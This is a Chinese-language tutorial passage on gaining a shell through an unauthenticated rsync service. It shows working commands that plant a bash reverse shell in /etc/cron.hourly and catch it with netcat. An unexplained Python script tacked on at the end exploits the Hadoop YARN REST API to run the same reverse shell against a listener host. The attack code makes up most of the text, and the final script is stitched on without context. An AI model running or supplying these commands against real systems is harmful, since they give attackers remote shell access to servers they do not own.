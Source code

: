 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktueW6t8TAE99vwmwyNKScKZCSh7oePk4quUAB4TvL4nWbqkb2RXZ7ibbg/640?wx_fmt=jpeg)

通过任意文件上传，可以直接写 WebShell（如果目标有 Web 服务的话），或者可以通过写 ssh 公钥实现获取权限，或者通过写 cron 定时任务反弹 shell。

通过写 cron 任务反弹 shell

1、下载 cron 定时任务配置文件并且查看任务内容

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuqrhnkpMUKSlhibLUVsTaEzG7qy3N0Ht4Ioia7ia3lWOr4w8OCY6ia7s3EQ/640?wx_fmt=jpeg)

```
rsync -av shell rsync://127.0.0.1/src/etc/cron.hourly
```

2、构造 shell

!/bin/bash
==========

/bin/bash -i >& /dev/tcp/192.168.168.133/8796 0>&1

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktumw9HEsrzTvgfSHw0RN2KyEXkTymQdDAD4gB7aabGu47HHE61sYib8OQ/640?wx_fmt=jpeg)

赋予执行权限

chmod +x shell

3、把 shell 上传至 / etc/cron.hourly 目录下

写入 cron.hourly 下文件的任务就会启动

```
nc -lvvp 8796
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktu3GaE0LoHoZkHOIjfl0iaiaNr6oKq3XDFJG4iadEWN64nQqicdKkibvH08mg/640?wx_fmt=jpeg)

4、本地监听 8796 端口，等待计划任务执行后反弹 shell 成功

```
#!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.220.137' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app\_id = resp.json()\['application-id'\]
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app\_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```
